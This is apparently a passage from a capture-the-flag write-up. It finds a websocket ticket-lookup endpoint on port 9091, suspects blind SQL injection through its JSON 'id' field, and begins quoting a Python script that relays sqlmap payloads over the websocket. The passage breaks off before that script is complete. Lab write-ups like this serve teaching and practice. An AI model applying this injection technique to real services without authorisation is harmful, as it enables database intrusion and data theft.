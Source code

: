 ```js
        else append("????????")
    }
    }
    
    ws.onmessage = function (e) {
    append(e.data)
    }
    
    function append(msg) {
    let p = document.querySelector("p");
    // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
    // p.style.color = randomColor;
    p.textContent = msg
    }
</script>
```

This is using the port 9091 discovered with nmap during initial reconnaissance. This will perform request with a JSON dataset such as :

```json
{"id":"123456"}
```

If the ticket referenced in `id` is not found, it will return `Ticket Doesn't Exist`.

This seem to be an information searched in a database, maybe the mysql previously noticed.

### sqlmap over websocket

There is a chance there is a possible injection through this websocket. Since the result is always `Ticket Doesn't Exist`, that would be blind. An interesting article can be found on internet :

[Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

It provide a python script to communicate between sqlmap and the target.

Let's try it !

Setup environnemnt ans install some prerequisites :

```shell
virtualenv -p python3 .venv
. .venv/bin/activate
pip install websocket-client
```

The article script : 

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

```